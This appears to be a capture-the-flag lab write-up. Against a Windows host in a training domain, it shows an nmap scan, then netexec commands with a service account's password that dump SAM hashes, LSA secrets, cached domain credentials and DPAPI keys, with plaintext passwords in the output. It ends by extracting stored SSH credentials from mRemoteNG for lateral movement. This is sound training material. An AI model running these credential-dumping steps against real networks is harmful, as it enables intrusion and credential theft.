

# Initial Enumeration

As usual I will perform a full enumeration of all the TCP ports on this machine:

```bash
PORT     STATE SERVICE       REASON         VERSION
135/tcp  open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 64
3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=S021W105.work.junon.vl
| Issuer: commonName=S021W105.work.junon.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-29T03:59:57
| Not valid after:  2026-09-28T03:59:57
| MD5:     d6ef 8639 af21 a264 e823 3a49 1982 c8b7
| SHA-1:   8456 1ee1 0184 2547 a358 c535 038c 19ae d0d1 37cb
| SHA-256: 2e31 f9d5 cf8c 7398 2914 2464 ef47 9beb 7ae8 8f35 797a f3f7 9748 5c60 e5ac 088b
| -----BEGIN CERTIFICATE-----
| MIIC8DCCAdigAwIBAgIQGCqo3CgjAYdEhV9fsv6eKTANBgkqhkiG9w0BAQsFADAh
| MR8wHQYDVQQDExZTMDIxVzEwNS53b3JrLmp1bm9uLnZsMB4XDTI2MDMyOTAzNTk1
| N1oXDTI2MDkyODAzNTk1N1owITEfMB0GA1UEAxMWUzAyMVcxMDUud29yay5qdW5v
| bi52bDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAM6QuKsQgNofOlDC
| ZxAck7pgTBGa9LaVFkvtt5OzgFEykCQnCilDL+d2WzurDt4i9Swpj9YBFd9y1icG
| 7siwzAmlz9hcdKPvy6FsHGz7r7LG3SO8/JJxethTQbvXNTzWgcXZiRf8PY1GvIBS
| J8mhDBtYqzBNT9prjQoG9GMfZkay//esvFjr25tMUKRhm+e24tGUPNKtcb8yRPQ1
| +bqmZh9dNHy/pkX2XGJxq4llLBIM/nQZcdxDrIKTKqaa6azd6hsnzOy0GTCyWc2r
| eEVf1VA9qcuAyDDm3HYryuad2O2KNkCe0le2xP239qEtvG1POMjywbUTz+61fcD/
| ce0+SbkCAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQw
| MA0GCSqGSIb3DQEBCwUAA4IBAQCBzz5xCIEimfP/ACiF/lxiDzGculcGMud3pKI3
| 81owM+FjvouBpi/juQ3GhhnS8i7unu9soz8Jy2h/K3dNcF2dk2YpG62DvzQiZb3I
| Ypc/xpVZpV9Ah1FqdTTaGtAhiFGLW2H6dy5jVSWXziUXjmiabq5uCuEkM4Q+SmYp
| ihT30HE2eAEU9BqUWWtFUlVzhGmH6BMCjdoomFStvmGBB40boYmHvBpNVFMKuub+
| hwiAdorelMFE5fG0bkEXZw4pzR+qIGmTE7EkXzXwyvcp62vKQimcgUxgTuCSJ+ZU
| 3IQB0aYCXRRTM3b6jkw46FuA1s5Vy9G1AOfeTEFPwtDfk40k
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-30T08:11:57+00:00; +2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WORK-JUNON
|   NetBIOS_Domain_Name: WORK-JUNON
|   NetBIOS_Computer_Name: S021W105
|   DNS_Domain_Name: work.junon.vl
|   DNS_Computer_Name: S021W105.work.junon.vl
|   DNS_Tree_Name: work.junon.vl
|   Product_Version: 10.0.19041
|_  System_Time: 2026-03-30T08:11:17+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/30%OT=135%CT=%CU=%PV=Y%G=N%TM=69CA304B%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=107%GCD=1%ISR=10D%TI=I%CI=I%II=RI%SS=O%TS=9)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# Back on Track

With the credentials obtained by the LSA dump from the File System i can reach this server as Administrator and dump some more secrets, showing traces of another username credentials:

```bash
└─$ proxychains netexec smb 172.16.21.140 -u svc_deploy -p 'AssetManagement2024!' --sam --lsa --dpapi 2>/dev/null

SMB         172.16.21.140   445    S021W105         [*] Windows 10 / Server 2019 Build 19041 x64 (name:S021W105) (domain:work.junon.vl) (signing:False) (SMBv1:None)
SMB         172.16.21.140   445    S021W105         [+] work.junon.vl\svc_deploy:AssetManagement2024! (Pwn3d!)
SMB         172.16.21.140   445    S021W105         [*] Dumping SAM hashes
SMB         172.16.21.140   445    S021W105         Administrator:500:aad3b435b51404eeaad3b435b51404ee:4589beda2d6ea4355c20327ab07b16e2:::
SMB         172.16.21.140   445    S021W105         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.21.140   445    S021W105         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.21.140   445    S021W105         WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0bda834f17d062cdccecd3cef15e9ff9:::
SMB         172.16.21.140   445    S021W105         [+] Added 4 SAM hashes to the database
SMB         172.16.21.140   445    S021W105         [+] Dumping LSA secrets
SMB         172.16.21.140   445    S021W105         WORK.JUNON.VL/Administrator:$DCC2$10240#Administrator#1bedef2bf1e9355c3f33175b3f9ff9dc: (2025-05-23 03:54:20)
SMB         172.16.21.140   445    S021W105         WORK.JUNON.VL/Carly.Adams:$DCC2$10240#Carly.Adams#a42c21b040bf60aa7dddb987f633e5c5: (2026-03-30 04:08:58)
SMB         172.16.21.140   445    S021W105         WORK.JUNON.VL/svc_deploy:$DCC2$10240#svc_deploy#dccb0113a5cb3da8b2393a3e27b2af2c: (2024-07-26 06:43:31)
SMB         172.16.21.140   445    S021W105         WORK-JUNON\S021W105$:aes256-cts-hmac-sha1-96:fe790921bc039df61e38b13faa2bc7affa47a1b42f747d1c11c90355a9dc46d7
SMB         172.16.21.140   445    S021W105         WORK-JUNON\S021W105$:aes128-cts-hmac-sha1-96:6dfb1f3b4324f7d19eb03d56d5894105
SMB         172.16.21.140   445    S021W105         WORK-JUNON\S021W105$:des-cbc-md5:dc2319974c015801
SMB         172.16.21.140   445    S021W105         WORK-JUNON\S021W105$:plain_password_hex:8dfeaf1797cecad7014c46a6bd53ef70bc33698ae2f3fb4a391e8a5e776a3a482d6fa8b2649c9eb3b9158e904150cf0b238f15d732b38c3de459a531f5431ee4039cf68a51685f78e8328ae307a97a776625420917f8649b383e96cc526cf6f02dea05be687ea8454f85a39693389e639e5596b6dd8dc771d1fac015c5da7274a1b159be980d27eb8ead4d8c296253ff545d5a24427f450d654003c0d27357268daf0891e55306178d8fc70c9b8b8e47efc0c89ad6a5767ffc347e6e651f34029880a9c445fcdfb0f9057e76d8849b1f045de358ad599e89caa24e03c5fe419a9a960e1f0cd98d3325f798f48d6b1717
SMB         172.16.21.140   445    S021W105         WORK-JUNON\S021W105$:aad3b435b51404eeaad3b435b51404ee:12e3fe5be290f500612fa76dc6ea0067:::
SMB         172.16.21.140   445    S021W105         work.junon.vl\carly.adams:ZMskoMXML_qC17
SMB         172.16.21.140   445    S021W105         dpapi_machinekey:0x6a184228ed5ea652109540b9576c060cc6b9cc5a
dpapi_userkey:0x78e1a4815b59c80fc82399272c06f5bdd69f2a76
SMB         172.16.21.140   445    S021W105         [+] Dumped 10 LSA secrets to /home/user/.nxc/logs/lsa/172.16.21.140_None_2026-03-30_104446.secrets and /home/user/.nxc/logs/lsa/172.16.21.140_None_2026-03-30_104446.cached
SMB         172.16.21.140   445    S021W105         [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.21.140   445    S021W105         [+] Got 17 decrypted masterkeys. Looting secrets...
SMB         172.16.21.140   445    S021W105         [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{91F9A551-5750-44B2-B185-E9EB23AC2108} - WORK-JUNON\carly.adams:ZMskoMXML_qC17

```

And I will login to grab another flag in the meantime:

```bash
C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt
WUTAI{7a7ae1d7a346eb89e3553a8ebc645b96}
C:\Windows\system32>hostname
S021W105

C:\Windows\system32>


```

Now here I was lost a bit and I asked for a nudge and apparently I am supposed to search for hidden credentials in the system. And apparently there is MremoteNG:  


So again. running Netexec I am able to gain some credentials, for the linux machine:

```bash
└─$ netexec smb 172.16.21.140 -u svc_deploy -p 'AssetManagement2024!' -M mremoteng
SMB         172.16.21.140   445    S021W105         [*] Windows 10 / Server 2019 Build 19041 x64 (name:S021W105) (domain:work.junon.vl) (signing:False) (SMBv1:None)
SMB         172.16.21.140   445    S021W105         [+] work.junon.vl\svc_deploy:AssetManagement2024! (Pwn3d!)
MREMOTENG   172.16.21.140   445    S021W105         Bitwarden: SSH2://172.16.21.240:22 - 172.16.21.240\bitwarden:b1Ttw4rd3n!

```

I feel confident I can move on to the Bitwarden machine!

&nbsp;